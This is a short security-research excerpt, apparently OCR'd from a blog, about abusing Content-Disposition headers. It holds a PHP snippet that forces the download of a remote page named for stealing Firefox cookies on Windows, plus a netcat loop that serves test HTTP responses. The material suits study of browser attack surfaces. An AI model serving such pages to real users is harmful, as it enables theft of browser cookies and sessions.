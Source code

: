     <?

    header("Content-Disposition: attachment; filename=bad.html");
    header("Content-Type: text/html");
    readfile("http://www.gnucitizen.org/blog/web-pages-from-hell-2/theft_of_Win_FF_cookies.html");

    ?>

    If you want to experiment with `Content-Disposition` headers, you can simply run a netcat server on the go. All you need is a script such as the following:

    #!/bin/bash
    # run-server.sh

    while true
    do
           cat response | nc -v -l -p55555
           # connect to localhost:55555 using your favorite browser
           sleep 2
    done

    Content of response file:

    HTTP/1.1 200 OK
    Server: test
    content-disposition: attachment; filename=test.html
    Content-length: 16
    Content-Type: application/octet-stream

    whatever content

_Have fun and let me know if you find something interesting!_
